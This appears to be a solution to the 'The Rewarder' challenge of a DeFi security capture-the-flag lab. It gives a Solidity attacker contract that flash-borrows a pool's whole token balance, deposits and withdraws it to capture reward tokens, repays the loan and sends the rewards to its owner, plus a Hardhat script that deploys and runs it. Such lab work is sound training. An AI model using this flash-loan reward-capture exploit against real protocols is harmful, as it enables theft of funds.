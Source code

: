 ```solidity
        flashLoanPool = _flashLoanPool;
        rewarderPool = _rewarderPool;
        rewardToken = _rewardToken;
    }

    function receiveFlashLoan(uint256 borrowAmount) external {
        require(msg.sender == address(flashLoanPool), "only pool");

        liquidityToken.approve(address(rewarderPool), borrowAmount);

        rewarderPool.deposit(borrowAmount);

        rewarderPool.withdraw(borrowAmount);

        bool payedBorrow = liquidityToken.transfer(
            address(flashLoanPool),
            borrowAmount
        );
        require(payedBorrow, "Borrow not payed back");

        uint256 rewardBalance = rewardToken.balanceOf(address(this));
        bool rewardSent = rewardToken.transfer(owner, rewardBalance);

        require(rewardSent, "Reward not sent back to the contract's owner");
    }

    function attack() external {
        require(msg.sender == owner, "only owner");

        uint256 dvtPoolBalance = liquidityToken.balanceOf(
            address(flashLoanPool)
        );
        flashLoanPool.flashLoan(dvtPoolBalance);
    }
}
```

```solidity
/** CODE YOUR EXPLOIT HERE */
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);
    const RewarderAttacker = await ethers.getContractFactory(
      "RewarderAttacker",
      attacker
    );
    this.rewarderAttacker = await RewarderAttacker.deploy(
      this.liquidityToken.address,
      this.flashLoanPool.address,
      this.rewarderPool.address,
      this.rewardToken.address
    );
    await this.rewarderAttacker.connect(attacker).attack();
```
